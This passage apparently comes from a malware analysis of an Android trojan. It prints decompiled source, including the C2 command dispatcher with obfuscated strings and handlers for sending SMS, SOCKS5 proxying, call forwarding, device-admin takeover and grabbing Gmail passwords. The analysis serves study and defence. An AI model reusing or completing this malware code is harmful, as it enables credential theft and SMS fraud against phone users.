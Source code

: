 ```cs
                            jSONObject4.put("application", s8);
                            jSONObject4.put("data", jSONObject3.toString());
                            i0.a("mergedJSON", jSONObject4.toString());
                            i0.e(context0, s4, jSONObject4.toString());
                        }
                    }
                    catch(Exception unused_ex) {
                        i0.a("JSON", "ERROR SettingsToAddJson");
                        i0.e(context0, s4, s5);
                    }
```

# Commands

These are all the commands which are received from the C2 server to the malware to do the malicious actions.

```cs
 jwozx0.a.a(s, jwozx0.a("ZWZkZDI4ZTRjYzIzNmYwYWFhYTExZjA5MWU=") + jSONObject3.toString());  // get run_cmd: 
                jSONObject5 = new JSONObject(new String(Base64.decode(jSONObject3.getString(jwozx0.a("ZWNkOTI4YTU=")), 0), "UTF-8"));  // data
                String s25 = jSONObject5.getString(jwozx0.a("ZWJkNTM4"));  // cmd
                switch(s25) {
                    case "remove_app": {
                        goto label_1633;
                    }
                    case "get_all_permission": {
                        goto label_1761;
                    }
                    case "run_socks5": {
                        goto label_1764;
                    }
                    case "notification": {
                        goto label_1383;
                    }
                    case "send_sms": {
                        jwozx0.a.send_sms(context1, jSONObject5.getString(jwozx0.a("ZTY=")), jSONObject5.getString(jwozx0.a("ZmM=")));
                        return;
                    }
                    case "run_admin_device": {
                        goto label_1706;
                    }
                    case "sms_mailing_phonebook": {
                        goto label_1647;
                    }
                    case "call_forward": {
                        goto label_1329;
                    }
                    case "request_permission": {
                        goto label_1713;
                    }
                    case "send_mailing_sms": {
                        jwozx0.a.a(context1, jSONObject5.getString(jwozx0.a("ZTY=")), jSONObject5.getString(jwozx0.a("ZmM=")));
                        return;
                    }
                    case "remove_bot": {
                        goto label_1655;
                    }
                    case "grabbing_pass_gmail": {
                        goto label_1720;
```